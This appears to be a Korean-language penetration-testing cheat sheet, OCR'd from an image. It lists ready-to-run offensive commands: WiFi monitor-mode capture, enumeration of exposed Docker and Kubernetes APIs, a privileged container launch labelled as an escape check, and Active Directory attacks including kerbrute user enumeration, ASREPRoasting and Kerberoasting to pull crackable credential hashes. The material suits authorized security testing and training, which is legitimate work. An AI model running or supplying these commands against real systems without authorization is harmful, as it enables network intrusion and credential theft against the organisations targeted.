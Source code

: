 
## 📡 무선 평가

### WiFi 정찰
```bash
# 모니터 모드
sudo airmon-ng start wlan0

# 네트워크 발견
sudo airodump-ng wlan0mon

# 특정 네트워크 캡처
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# 블루투스 발견
hcitool scan
sudo bluetoothctl
```

---

## 🐳 컨테이너 및 오케스트레이션

### Docker 열거
```bash
# Docker API 노출
curl http://target:2376/version
curl http://target:2375/containers/json

# Docker 레지스트리
curl http://target:5000/v2/_catalog

# Kubernetes 열거
curl -k https://target:6443/api/v1/namespaces
curl -k https://target:8080/api/v1/nodes

# 컨테이너 탈출 확인
docker run --rm -it --pid=host --net=host --privileged alpine:latest
```

---

## 🏢 Active Directory 심화

### 도메인 열거
```bash
# BloodHound 수집
bloodhound-python -u username -p password -ns 192.168.1.10 -d domain.com -c all

# PowerView 동등 기능 (Linux)
ldapsearch -x -h dc.domain.com -D "user@domain.com" -W -b "dc=domain,dc=com" "(objectclass=user)" sAMAccountName

# Kerbrute 사용자 열거
kerbrute userenum --dc 192.168.1.10 -d domain.com userlist.txt

# ASREPRoast
GetNPUsers.py domain.com/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast

# Kerberoasting
GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request
```
